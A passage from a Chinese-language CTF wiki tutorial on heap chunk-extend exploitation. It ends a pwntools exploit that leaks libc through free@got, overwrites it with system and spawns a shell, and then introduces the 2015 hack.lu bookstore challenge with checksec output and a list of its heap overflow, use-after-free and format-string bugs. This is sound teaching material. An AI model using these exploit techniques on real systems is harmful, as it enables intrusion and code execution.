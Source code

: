 ```python
delete(1)
# new heap 1's struct will point to old heap 1's content, size 0x20
# new heap 1's content will point to old heap 1's struct, size 0x30
# that is to say we can overwrite new heap 1's struct
# here we overwrite its heap content pointer to free@got
create(0x30, p64(0) * 4 + p64(0x30) + p64(heap.got['free']))  #1
# leak freeaddr
show(1)
r.recvuntil("Content : ")
data = r.recvuntil("Done !")

free_addr = u64(data.split("\n")[0].ljust(8, "\x00"))
libc_base = free_addr - libc.symbols['free']
log.success('libc base addr: ' + hex(libc_base))
system_addr = libc_base + libc.symbols['system']
#gdb.attach(r)
# overwrite free@got with system addr
edit(1, p64(system_addr))
# trigger system("/bin/sh")
delete(0)
r.interactive()
```

## 2015 hacklu bookstore
[題目鏈接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/chunk-extend-shrink/2015_hacklu_bookstore)

### 基本信息

```shell
➜  2015_hacklu_bookstore git:(master) file books    
books: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3a15f5a8e83e55c535d220473fa76c314d26b124, stripped
➜  2015_hacklu_bookstore git:(master) checksec books    
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/chunk_extend_shrink/2015_hacklu_bookstore/books'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

可以看出該程序是動態鏈接的 64 位程序，主要開啓了 Canary 與 NX 保護。

### 基本功能

該程序的主要功能是訂書，具體如下

- 最多可以訂購兩本書。
- 根據編號來選擇訂購第幾本書，可以爲每本書添加對應的名字。然而在添加名字處出現了任意長度堆溢出的漏洞。
- 根據編號來刪除 order，但是這裏只是單純地 free 掉，並沒有置爲 NULL，因此會出現 use after free 的漏洞。
- 提交訂單，將兩本書的名字合在一起。這裏由於上面堆溢出的問題，這裏也會出現堆溢出的漏洞。
- 此外，在程序退出之前存在一個**格式化字符串漏洞**。
